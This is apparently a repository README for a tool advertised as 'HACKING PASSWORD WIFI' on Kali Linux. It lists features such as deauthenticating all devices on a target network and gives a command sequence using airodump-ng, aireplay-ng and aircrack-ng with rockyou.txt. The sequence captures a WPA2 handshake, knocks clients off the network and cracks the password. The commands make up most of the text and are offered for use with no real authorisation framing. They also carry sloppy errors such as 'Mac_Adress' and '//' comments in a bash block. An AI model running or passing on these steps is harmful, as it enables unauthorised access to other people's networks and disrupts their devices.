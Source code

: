 # 🔥 HACKING PASSWORD WIFI 🔥  

**A powerful tool to hack WiFi perform network testing on Kali Linux.**  
---

## 📌 Features  
✅ **Start & Stop wlan0 Monitor Mode**  
✅ **Scan & Select WiFi Networks**  
✅ **Deauthenticate All Devices from a Target WiFi**  
✅ **Hacking Password**  
✅ **Auto-Detect wlan0mon or wlan0**  
✅ **Secure Network Testing on Kali Linux**  

---

## 🔧 Installation  

### **🔹 On Kali Linux**
Run the following commands:

```bash
airodump-ng wlan0mon
cd Desktops 
airodump-ng -c 10 --bssid Mac_Adress -w NAME wlan0mon
//Deauth Wifi in New Terminal 
aireplay-ng --deauth Numer_Seconds -a Mac_Adress wlan0mon
//Finished 
aircrack-ng -a2 -b Mac_Adress -w rockyou.txt NAME.cap

